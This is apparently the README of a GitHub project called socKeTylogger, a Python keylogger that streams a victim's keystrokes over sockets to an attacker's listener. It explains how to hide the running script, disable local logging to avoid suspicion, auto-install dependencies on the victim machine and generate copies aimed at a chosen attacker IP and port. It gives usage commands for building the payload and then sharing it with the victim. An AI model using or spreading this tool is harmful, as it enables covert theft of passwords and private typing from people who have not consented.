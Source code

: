 # socKeTylogger

This script is a simple keylogger, that by means of sockets, sends the pressed keys to a remote machine that would have to be in listen, for that there is the server folder, that contains the script listener.py, so that this script has more power change the extension of the file from .py to .pyw, so that the victim does not see the terminal when the script is started.

## This script has by default the functionality to write in a file all the keys pressed, you can comment that line if you want, because that could generate suspicions.

## More about the script
The keylogger when executed automatically installs the **pynput** library on the victim machine, so there is no need to depend on the victim having the pynput library installed.


The **autoChange.sh** script plays with base64 to generate a file in python3 that generates another keylogger, this is functional when we make a change in the keylogger, but the real utility of this script called **autoChange.sh** is that the file it generates, called **keyloggerGenerator.py**, allows us to generate several keyloggers to operate with another ip and port if we want to.


The keylogger.py file has a variable called ending_key, this variable is responsible for stopping the server when the key combination **CTRL + SHIFT + ESC** is detected. You can also modify the keyboard combination, so that when key combination is detected the keylogger stops.
## Requirements:
```
pip install -r requirements.txt
```
## Usage:
``` 
./autoChange.sh
python3 keyloggerGenerator.py <attacker ip> <attacker port> <keylogger filename>
**Before sharing the file, put yourself in listening mode by running the following command**
cd server
python3 listener.py <listener port>
**Remember, the port must be the same port that the victim will use to connect to your computer.**
Now share the file to the victim machine and wait for it to connect to your server to receive the keystrokes.
```
